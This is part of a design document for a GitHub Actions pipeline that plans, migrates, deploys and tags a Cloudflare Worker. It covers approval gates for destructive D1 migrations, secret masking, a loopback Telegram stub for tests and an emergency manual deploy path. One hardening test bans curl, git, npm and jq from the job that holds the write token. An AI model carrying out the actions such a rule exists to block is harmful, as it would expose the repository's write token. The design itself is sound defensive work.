- Only a successful `ship` advances BASE (#312). After a `ship` that failed once the migration was applied, BASE stays older: the next run classifies the same migration again (a destructive one asks for the approval again, which is harmless: it is no longer pending, so `ship` applies nothing, and the approval can be rejected without effect on the database), and the migration re-lint looks at the pending files, not at BASE.
- BASE must be an ancestor of `github.sha` (`git merge-base --is-ancestor`); if it is not, the job fails closed.
- Anyone with write access can create deployment records through the API, so BASE is advisory only. The authority is the re-lint of the pending files (from `migrations list --remote`) in `ship` plus the environment approval. The fallback to `github.event.before` when the API fails reduces the precision of the plan, but never skips the re-lint.

Notes:

- A job's `environment:` may be an expression [V: the expression was accepted by GitHub in the former `migrate` job and runs in production since #202; `ship` uses the same form].
- Environment protection (approval) for `production-destructive` is evaluated when the `ship` job is about to start, before its first step: the job waits for the owner, so NO migration is applied and nothing is deployed before the approval, and a rejection (or a timeout) applies and deploys nothing [V behaviour of required reviewers, general GitHub feature; exact UI [R]]. The migrations and the deploy are ONE job by the owner's decision of 2026-10-14 (plan, ship, release, #312): one environment, one approval, one deployment record.
- The deploy steps of `ship` do not run when a migration step fails: a failed step makes every later step without a status function skip, and the only steps that run after a failure are the two summaries with `always()` (they only print text); no step has `continue-on-error`. The workflow tests assert this statically and with a model of the step conditions for a failure of every step.
- `plan` validates its output `environment` in the expression itself: only the literal `production` written by the step "Classify" passes as `production`, anything else (empty, missing, tampered) is `production-destructive`, i.e. needs the approval (fail closed). The job-level `if:` of `ship` accepts exactly the two names as well.
- The first push after #312 merged is a real production deploy through the new job (the PR changes `worker/test/`, so `worker/` differs from the last deployment and `plan` finds something to deploy; the Worker code itself is unchanged). Rollback of this change is a revert of the PR.
- All shell steps pass any non-constant value through `env:`; no `${{ github.event... }}` text inside `run:` [P].
- #272: `plan` also reads the subject line of the commit (step "Commit title", `gh api commits/<sha>`, only the default read permission), reduces it to `[A-Za-z0-9 ._,:;()#/+-]` and at most 100 characters and exposes it as the output `commit_title`; the step "Deploy" re-validates it and passes `--tag=<short sha>` and `--message="GitHub Actions run <run id>: <title>"` to `wrangler deploy`. Details, limits and the logs setting of the same ticket: [worker-deploy-runbook.md](worker-deploy-runbook.md) section 11.

### 12.5 The release job (#290 part 3)

Tag every master commit `vX.Y.Z`, create the GitHub Release only for feat, fix, perf, breaking commits and manual dispatches (owner decision (a), 2026-10-14; rules and the first-run facts in docs/releasing.md "Who tags" and "`next-version`, v3.0.x and v4.0.0").

- Condition (exact, tested over every combination of the results): `!cancelled()`, the results of `changes`, `lint` and `tests` of the same run as in `plan` (section 12.2; #307: there is no `ci` job), the job `version` succeeded, `plan` succeeded, and either `plan.outputs.deploy != 'true'` with `ship` skipped, or `plan.outputs.deploy == 'true'` with `ship` succeeded; this repository, `refs/heads/master`, `push` or `workflow_dispatch`. A failed, cancelled or rejected `ship` (a failed migration step, deploy or health check, or a rejected approval), a failed plan, a failed or cancelled `changes`, `lint` or `tests`, `pull_request`, `merge_group`, forks and other refs never release. `!cancelled()` is required because `ship` is skipped by design when there is nothing to deploy.
- Permissions and secrets: `contents: write` on this job only (allowlist test), no environment, no secrets, nothing of Cloudflare, only `github.token`. The job holds the write token, so it installs and runs NO package and uses NO action (not even a checkout): one step, `gh` of the runner image and the REST API (a test asserts: no `uses`, no dotnet, NuGet, npm, curl, git or jq in it). The version comes from the read-only job `version` (no permissions block, the only job that runs GitVersion.Tool 6.8.2, `ubuntu-24.04`) as four job outputs (`sha`, `major_minor_patch`, `pre_release_label`, `branch_name`), each written only if it matches a strict pattern (the label as `invalid` otherwise); `release` needs `version` (the condition requires `needs.version.result == 'success'`) and re-validates all four. `version` is not a required check and `plan` does not need it.
- Script (step "Tag and release", executed by the workflow tests with a stub `gh` and the version outputs in the environment; the producer step "Calculate version" is tested with a stub GitVersion): the head of master must equal `github.sha` (otherwise green, no tag); `V_SHA` equals `github.sha`, `V_BRANCH` is master, `V_LABEL` is empty and `V_MMP` is strict `X.Y.Z` (else fail); the tag state is read with `gh api git/matching-refs/tags/<tag>` (200 with an empty list = absent, so no error text such as `HTTP 404` is parsed; the exact ref is selected; same commit = no-op; another commit, annotated or any API error = fail); the tag is created with `gh api -X POST git/refs` (lightweight, target `github.sha`), never moved, deleted or forced; the Release (`gh release create --verify-tag --generate-notes`) only for the subject types above or a dispatch, created if missing also when the tag already existed. The commit message is read through the API into a variable and only matched.
- Concurrency: the job is part of the push or dispatch run in the workflow-level group `worker-deploy` (section 3 rule 5), so two releases never overlap and re-runs are covered by the idempotency rule.
- Consequences: tags are frequent (every commit increments at least the patch version); under fast merging a commit whose run was replaced while pending, or after which master moved on before the job ran, gets no tag.

### 12.3 CI-safe smoke (spec for #197)

`worker/scripts/smoke.mjs` today needs a `.dev.vars` file, a seeded local D1 with track `t1`, and real Telegram for the `stream` checks [V worker/scripts/smoke.mjs header and checks]. CI version [P]:

- Original plan: a switch `SMOKE_SKIP_STREAM=1` skipped the checks that fetch from Telegram (Range, full body, content type, MP3 header, the full-size check). Today (#285) there is no switch: the CI tests simply do not contain the 6 stream checks (skipped tests are forbidden by the Vitest guard), and `scripts/smoke.mjs` keeps them for the owner's local run against the real seed and real Telegram. The checks that do not reach the real Telegram (auth, library endpoints, stubs, XML, unknown id error) are in `worker/test/smoke/suite.mjs`. Since #301 that suite is also hermetic for the Telegram paths: the harness starts a local stub of `getFile` and the file download on `127.0.0.1` (random port, `worker/test/smoke/telegram-stub.mjs`) and points the Worker at it with the TEST-ONLY variable `TG_API_BASE`, so the cover art checks (album cover, artist image `ar-<id>`) and the track stream and Range checks assert the EXACT file id and bytes, a wrong id or a hang fails the test, and no outbound network is used. `TG_API_BASE` (`worker/src/telegram.ts`, `telegramApiBase`) is optional and unset in production (behaviour and URLs are byte for byte the old ones, `https://api.telegram.org`). It is validated strictly and fails closed: `https` for any host, `http` only for `127.0.0.1`, `localhost` and `[::1]`, no credentials, query, fragment or path, a lowercase scheme and host; an invalid value makes every Telegram call fail with the usual 502 `Upstream storage error` and sends no request at all (it never falls back to the default). It must never be set in `wrangler.toml`, a Worker secret or any workflow: `.github/workflows/tests/tg-api-base.test.mjs` fails when the name appears in a workflow or in `wrangler.toml`. The bot token still travels in the URL path to the configured host, so the proxy design does not change: `/stream` and `getCoverArt` proxy bytes and never redirect, and the unit and smoke tests assert that no response contains the token, the file URL or the upstream address.
- `.dev.vars` generated per run with FAKE values: `TG_BOT_TOKEN=<fake>`, `TG_API_BASE=<the loopback URL of the local Telegram stub>` (test-only, see above) and a random `SUBSONIC_USER`/`SUBSONIC_PASSWORD` produced in the job (not a secret, never reused). The file is gitignored [V .gitignore lists `.dev.vars`].
- Schema from the committed migrations: `wrangler d1 migrations apply DB --local` (flags [V d1 commands page]), which also proves that all migrations apply to an empty database; seed rows (`ar1`, `al1`, `t1`, fake Telegram ids) from a committed SQL fixture.
- Implemented first as the `smoke:ci` script [V #197]; since #285 the same steps (migrations local, seed, the checks without the Telegram ones) are the Vitest project `smoke` (`worker/test/smoke`), and the paging check is a stub test.
- With the placeholder `database_id` in `wrangler.toml` local mode may or may not need a real id: the D1 local-development page only talks about `preview_database_id` and does not say whether a placeholder `database_id` is fine [V page read; conclusion [R]]. #197 settles it by running from a clean checkout and states the result; if it does not work, the CI step generates a throwaway local config (a different file from the production one) with a fake id.

### 12.4 How #202 implements 12.2 (`plan` classification and the migration steps, now in `ship`)

Since #312 the job `migrate` below is the first half of the job `ship` (the same steps, byte for byte; the workflow tests keep a fingerprint of every step) and `deploy` is its second half; where the text says "`migrate`" read "the migration steps of `ship`".

Decisions where the implementation had to choose (the workflow file carries the same comments):

- **The migration steps of `ship` always run when a deploy is planned.** `plan` classifies the migration files ADDED in `BASE..sha` (immutability check, then lint file by file, then the label of the PR of the commit that added each destructive file) and writes the output `environment` (`production` or `production-destructive`). That classification is advisory. The authority is `ship`: the pending list of the remote DB (`wrangler d1 migrations list`), the re-lint of exactly those files (without `--approved` in `production`, with it only in `production-destructive`) and the environment approval. "Nothing pending" is a green no-op inside `ship`; the deploy steps follow in the same job and have no `always()`, so a failed migration step skips them.
- **Lint outcome per new file.** Exit 0 (warnings such as ADD COLUMN included, so 0003 is NOT destructive) -> `production`. Exit 1 that becomes exit 0 with `--approved` -> destructive only. Everything else (missing IF NOT EXISTS, parse error, exit 2) fails the run; no label waives it.
- **Label.** It is read at run time from `commits/<sha>/pulls` of the commit that ADDED the file: the PR must be merged, its `merge_commit_sha` must equal that commit (squash merge) and it must carry exactly `destructive-migration-approved`. Any API error means "no label". The label only selects the route; the owner's approval of `production-destructive` is the authorisation. If the owner rejects, `ship` does not run, nothing is applied and nothing is deployed; the migration stays unapplied, so the next run (its BASE is still the last successful deployment) routes it to the approval again until it is approved or reverted. A revert of a never-applied file removes it from `BASE..sha` and clears the block. In `production-destructive` the re-lint runs with `--approved` on ALL pending files, and the owner's approval screen lists no files: the `plan` summary lists the destructive files, and the owner checks it (and the pending list) before approving. An unlabelled pending destructive file in `production` fails every run until it is handled by hand (label plus approval, or a revert if it was never applied); the runbook (#203) says how.
- **Immutability** is checked in `plan` against BASE (`git diff --name-status --diff-filter=MRDT BASE sha -- worker/migrations/`), before `ship` can be offered for approval. A migration merged but not yet applied that a later commit edits is linted at its final content (it is "added" relative to BASE); CI blocks that edit at PR time. A BASE older than the real last application weakens this check, which is why BASE is only the plan and not the authority.
- **BASE.** The first of the 30 newest deployments of `production` and of `production-destructive` (merged, newest first) whose latest status is `success` (#312: before it only `production` was read, which was correct while `deploy` always wrote the `production` record); fallback `github.event.before` (push) or the parent of the commit (dispatch); must exist and be an ancestor of the commit.
- **Environment expression.** `ship` uses `environment: name: ${{ needs.plan.outputs.environment }}`, guarded by an `if:` that accepts only the two literals (GitHub creates unknown environments without protection). Documented GitHub behaviour [V context availability of `jobs.<id>.environment` includes `needs`]; the former job `migrate` used the same form. If GitHub ever rejects the expression, the fallback is two jobs `ship` / `ship-destructive` with `if:` on the two literals and a `needs` on both in `release`.
- **Concurrency.** A `ship` waiting for the owner holds the `worker-deploy` group; newer runs queue behind it (one pending run is kept). They do not lose the waiting migration, see BASE above.
- **Steps with secrets.** Only the config step (D1 id) and the four wrangler steps (token, account id). The wrangler output of `list` and `time-travel info` goes to files and is printed only on failure; `apply` prints to the log, where GitHub masks the known ids (wrangler prints the database id in "Executing on remote database"). The D1 id is validated, then masked, in the same step that writes the config.

Wrangler 4.149.0 behaviour, read in the pinned source (2026-10-11) and rehearsed against a LOCAL D1 [V local only]: `migrations list` prints "No migrations to apply!" or "Migrations to be applied:" followed by a table with one name per row (no JSON option); `migrations apply` asks a confirmation that takes the fallback value yes when there is no TTY or CI is set; it applies the files in order, each as one query (file plus the insert into `d1_migrations`), and stops at the first error with a non-zero exit; on the local D1 a failing file was rolled back as a whole and not recorded. Whether the remote D1 treats a multi-statement file atomically is not documented [R]; the Time Travel bookmark is the recovery point. `time-travel info --json` prints the API result and its text mode reads `result.bookmark`, so the JSON has a `bookmark` field [V source; the real response is not seen yet].

First real run, what the owner or coordinator checks [R until then]:

1. Both environments exist with the master-only policy and the secrets of section 11 (owner ticket #264); decide whether 0003 is applied by hand (#261) or by the first run.
2. `plan`: summary shows BASE (fallback source on the first run, because no deployment record exists yet) and the new migration files; `environment` is `production`.
3. `ship` (migration steps): no hang at the apply (non-interactive), `list` names the pending migrations (0003 if not applied by hand), the lint passes with the ADD COLUMN warning, the bookmark appears in the summary, the apply succeeds, "no migration pending after the apply" is printed.
4. The log contains no account id, D1 id, token or workers.dev host (the masks), also in the `apply` output.
5. The deploy steps of `ship` run only after the migration steps are green; a second run (dispatch) shows "No pending migrations" and still deploys.
6. The `environment` expression was accepted by GitHub, and a throwaway destructive migration (label plus approval, and a rejection) is checked on a throwaway PR by review, never on production.

## 13. Changes needed in the sibling tickets (listed here as the ticket asks; also posted as comments)

- **#199 (owner):** NO scoped token to create: the owner adds the existing Cloudflare token as the environment secret `CLOUDFLARE_API_TOKEN` (not `CF_DEPLOY_API_TOKEN`) in both environments, plus `CLOUDFLARE_ACCOUNT_ID` and `D1_DATABASE_ID` in both and `WORKER_URL` in `production` only; verify that no repository-level or organisation-level secret exists and that both environments use the selected branch `master`; new decision: the master ruleset (section 10 decision 3); if the first run names a missing permission on the existing token, add exactly that one. The owner no longer has to run `migrations list --remote` (first-run no-op verified, section 5.1 rule 5 [V]).
- **#201:** (a) job `plan` and the `migrate`/`deploy` split come from #202's scope, but `plan` and the guard "sha is master head" are best created in #201 so that #202 only adds the migrate job; (b) `wrangler.ci.toml` is already in `.gitignore` (added by PR #206, before any step writes it); the secret is `CLOUDFLARE_API_TOKEN`; `plan` uses `fetch-depth: 0` and the BASE rule of 12.2; (c) the health URL is the secret `WORKER_URL`; the URL, the host and the account subdomain label are each registered with `::add-mask::` (4.3); the D1 id is validated BEFORE `add-mask` (4.2); (d) `wrangler deploy --dry-run -c wrangler.ci.toml` once in the rehearsal to confirm the config location (section 4.1); (e) first-run log scan for the account id, D1 id and workers.dev host.
- **#202:** `migrate` runs in the environment computed by `plan`; `pnpm install --frozen-lockfile --ignore-scripts`; `--approved` only in `production-destructive`; non-interactive proof and JSON shape of `time-travel info` are explicit first-run verifications; `timeout-minutes`.
- **#200:** `smoke:ci` name and lint call as in section 12; check name `ci` at the time (#307 replaced it by the required checks `changes`, `lint` and `tests`); `fetch-depth: 0`; add the immutability check of section 5.1 rule 5a (applied migrations cannot be modified, renamed or deleted); the check must exist before the owner can make it required by the master ruleset (section 10 decision 3).
- **#203:** see section 14.

## 14. Doc edits for #203 and the runbook outline

Edits (each statement must be true after the pipeline lands):

- `CLAUDE.md`: the fact "GitHub no longer uses secrets ... none should be added" becomes: ingest uses none; the Worker deploy uses environment secrets in `production` and `production-destructive`; add the layout entries for the workflows, the lint and `smoke:ci`; keep the rule that agents cannot do production changes. (This ticket does NOT edit CLAUDE.md.)
- `README.md`: the paragraph about secrets.
- `docs/architecture.md` section 4: the sentence "GitHub is not used for secrets any more" and the Worker deploy and secrets setup text; the risk table row if it mentions manual deploy. Mention that migration 0002 was applied by hand (#122) and is the last exception.
- `docs/poc-plan.md` only if it contradicts.
- Check: `grep -n "no longer uses secrets\|not used for secrets" CLAUDE.md README.md docs/` returns only true statements [V #203].

Runbook outline (written as [worker-deploy-runbook.md](worker-deploy-runbook.md), #203): release flow (PR -> CI -> review -> merge -> plan -> ship (migrate, deploy, health) -> release), where to read a run and what each summary shows, rollback (section 9), the order of rollbacks, emergency manual deploy (first `workflow_dispatch` on master; last resort the owner's local `pnpm exec wrangler deploy -c wrangler.local.toml` from `worker/`; agents cannot do either from their shell), secrets inventory with locations (GitHub environment secrets, Worker secrets in Cloudflare, local `.env` keys) and rotation (the owner rotates the existing Cloudflare token in the dashboard, then updates the local `.env` and BOTH environment secrets; section 3 rule 10), the leak detection and recovery steps (section 3 rule 9), the owner's `wrangler secret list` check after the first run (compensating control for the health check limit), the author rule for migrations (additive and idempotent, code works with and without them, how to request a destructive one with the label plus approval).

## 15. Emergency manual deploy path

1. First choice: Actions -> "CI" -> Run workflow on master (`workflow_dispatch`), which goes through plan, ship (migrations, deploy and the health check) and release with the same protections [P].
2. If GitHub Actions or the environment secrets are unavailable: the owner runs, from `worker/` on their own machine, `pnpm exec wrangler deploy -c wrangler.local.toml` (the existing path with the gitignored config and the owner's token from `.env`, the same token the pipeline uses) [V CLAUDE.md]. Migrations in that case: `pnpm exec wrangler d1 migrations apply cowlic --remote -c wrangler.local.toml` after `time-travel info` has been noted by hand [P; commands R per section 5.2].
3. Agents cannot do either (production changes are denied to their shell) [V #122, CLAUDE.md]; they prepare the change and the owner runs it.
4. After a manual deploy: run the health check by hand (`/rest/ping?f=json` without credentials must show error 40), then log in from Symfonium, and file a note on the ticket that the pipeline was bypassed and why.

## 16. Verification status of this document

Verified by the author on 2026-10-11: repo files named above; GitHub API for both action pins and their `action.yml`; the Cloudflare pages cited as [V]. Not verified (all [R] items): wrangler behaviour in CI (non-interactive `d1 migrations apply --remote`, JSON shape of `d1 time-travel info`, whether the owner's existing token covers `wrangler deploy`, `d1 migrations list/apply --remote` and `d1 time-travel info`, `wrangler rollback` effect on secrets), masking of derived values, `commits/{sha}/pulls` for squash merges, the `environment:` expression, config-file-relative path resolution, local-mode `database_id` placeholder. No workflow was run and nothing was applied to production. There are no tests for a docs-only change; the reviewer re-checks the two action SHAs with the `gh api` commands in section 6.
